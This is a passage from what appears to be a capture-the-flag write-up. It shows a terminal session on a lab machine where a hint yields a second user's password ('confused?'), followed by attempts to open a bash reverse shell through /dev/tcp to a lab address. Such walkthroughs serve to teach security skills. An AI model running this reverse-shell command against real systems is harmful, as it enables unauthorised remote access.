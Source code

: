 {% highlight shell %}
iamroot@confusion:/$ cat /etc/apt/note.txt
cat /etc/apt/note.txt
Have You Checked Other Port?

iamroot@confusion:/$ ssh localhost
ssh localhost
The authenticity of host 'localhost (::1)' cant be established.
ECDSA key fingerprint is SHA256:8mZMfcPeTwb0k3OmeHvKzjT8UNZjZtpozyFYnb9ih5w.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Have you ever thought?
     If 
 Cindrellas 
   Shoe Fit 
  Perfectly 
   Then Why 
  Did It Fall 
    Off?
still:confused?
Then go for Port 32145 :)
{% endhighlight %}

Geddit? The password for the user *still* is **confused?**.

### Second user

{% highlight shell %}
iamroot@confusion:/etc/apt$ su still   
su still
Password: confused?

Welcome To My Secret Most Secure Shell :p
id
id
uid=0(root) gid=0(root) groups=0(root)
iamroot@confusion:/etc/apt$ su still
su still
Password: confused?

Welcome To My Secret Most Secure Shell :p
/bin/bash -i >& /dev/tcp/10.10.10.2/1235 0>&1
/bin/bash -i >& /dev/tcp/10.10.10.2/1235 0>&1
bash: >&: No such file or directory
command not found
iamroot@confusion:/etc/apt$ su still
su still
Password: confused?

Welcome To My Secret Most Secure Shell :p
bash -i >& /dev/tcp/10.10.10.2/1235 0>&1
bash -i >& /dev/tcp/10.10.10.2/1235 0>&1
Smooooooth Hehe :p
iamroot@confusion:/etc/apt$
{% endhighlight %}
